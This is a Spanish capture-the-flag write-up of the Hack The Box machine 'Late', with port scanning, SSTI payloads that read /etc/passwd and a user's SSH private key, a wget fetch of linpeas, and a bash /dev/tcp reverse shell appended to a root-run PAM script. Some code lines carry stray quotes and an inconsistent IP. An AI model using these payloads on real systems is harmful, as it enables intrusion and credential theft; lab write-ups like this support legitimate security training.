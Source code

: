 ```yaml
---
title: 'Late'
description: ''
pubDate: 'May 12 2023'
heroImage: 'https://res.cloudinary.com/djc1umong/image/upload/v1686607648/late_info_ulqc74.webp'
slug: 'late'
---
```


### Escaneo de puertos

Hacemos nuestro escaneo de puertos como es usual y verificamos cuáles están abiertos y qué servicios están corriendo en cada uno, por ejemplo en esta Máquina tenemos el puerto 80 y 22

```powershell

nmap -p- --open --min-rate 5000 -Pn 10.10.11.156 -oG puertosAbiertos'
```

Vemos que en el puerto 80 está corriendo un servidor web <i>late.htb</i> lo agregamos a nuestro archivo <i>/etc/hosts</i> de nuestra máquina

```powershell
10.10.11.156 late.htb
```

### Enumeración

Mientras hacemos un recorrido por la página notamos que en la parte de abajo tenemos unos nuevos enlaces que apuntan a <i>images.late.htb </i>,
lo añadimos a <i>/etc/hosts </i>para luego ingresar a la URL, y vemos la siguiente vista:

<img
layout="fill"
src='https://res.cloudinary.com/djc1umong/image/upload/v1686607657/fuzzing_enumeration_yydcsi.png'
alt='Enumeración de la maquina Late en Hack The Box'
/>

### Archivo hosts

En el archivo <i>/etc/hosts</i> de nuestra máquina añadimos:

```powershell
10.10.11.156 images.late.htb
```

Nos vamos a la nueva URL:

<img
layout="fill"
src="https://res.cloudinary.com/djc1umong/image/upload/v1686607671/late_1_temcpg.webp"
alt="Vista images.late.htb de la maquina Late en hack the box"
/>

Vemos en el título que esta página usa Flask, necesitamos saber como funciona este conversor de imagen a texto
creamos nuestra imagen con Photoshop, GIMP, etc. Testeamos la App para vulnerabilidades comunes como XSS, SQLi y CMDi
abrimos e ingresamos payloads para estas vulnerabilidades enganchamos que una SSTI funciona <i>&#123; &#123; 7 \* 7 &#125; &#125;</i>

Lo subimos a la web y nos retorna un archivo llamado <i>result.txt</i> con el siguiente contenido.

La palabra “Late” nos dice porque un SSTi pudo funcionar (Temp”late”). Al intentar conseguir nuestro RCE al subir una imagen con el siguiente payload por ejemplo

```powershell
text="{{ ‘’.__class__.__mro__[2].__subclasses__()[40](‘/etc/passwd’).read() }}"
```

La web lo procesa y al convertir imagen a texto algunos caracteres son añadidos y otros se pierden

```powershell
text="f{ ‘’_lsd__. _mro__.subclasses__([‘/etc/passwd’).read() }}"
```

Después de verificar esto notamos que tenemos ejecución de remota de comandos y podemos ver el archivo /etc/passwd
Notamos que hay un usuario "svc_acc" con su llave ssh privada y capacidad de login.
Volvemos a subir nuestro payload, cambiando el path al archivo id_rsa.

```powershell
text="{{ ‘’.__class__.__mro__[2].__subclasses__()[40](‘/home/svc_acc/.ssh/id_rsa’).read() }}"
```

Ahora que tenemos el id_rsa hacemos un login con el usuario svc_acc

```powershell
chmod 600 id_rsa"
ssh svc_acc@10.10.10.156 -i id_rsa"

```

### Root

Descargamos linpeas e intentamos enumerar rutas con privilegios.
Montamos nuestro servidor

```python
python3 -m http.server 8080"

```

Luego en la máquina Late

```powershell
svc_acc@late:~$ wget http://10.10.14.63:8080/linpeas.sh"

chmod +x linpeas.sh
./linpeas.sh
```

Encontramos el archivo ssh-alert.sh.

svc_acc@late:~$ cat /usr/local/sbin/ssh-alert.sh

```powershell
#!/bin/bash
RECIPIENT=”root@late.htb”
SUBJECT=”Email from Server Login: SSH Alert”
BODY=”
A SSH login was detected.
User: $PAM_USER
User IP Host: $PAM_RHOST
Service: $PAM_SERVICE
TTY: $PAM_TTY
Date: `date`
Server: `uname -a`
“
if [ ${PAM_TYPE} = “open_session” ]; then
echo “Subject:${SUBJECT} ${BODY}” | /usr/sbin/sendmail ${RECIPIENT}
fi
```

Vemos que se ejecuta cada vez que entablamos una sesión
inspeccionamos los atributos que tiene aunque no tiene el de
escribir podemos crear un archivo y anexarlo.

```powershell
svc_acc@late:~$ lsattr /usr/local/sbin/ssh-alert.sh
— — -a — — — — e — — /usr/local/sbin/ssh-alert.sh"
```

Creamos un archivo file.txt con el payload de Reverse Shell y lo añadimos
al archivo ssh-alert.sh

```powershell
bash -i >& /dev/tcp/10.10.14.63/9999 0>&1"
cat file.txt >> /usr/local/sbin/ssh-alert.sh
```

Configuramos un netcat en la Late y en nuestra máquina hacemos login.

```powershell
nc -lvnp 9999

cat flag.txt

```
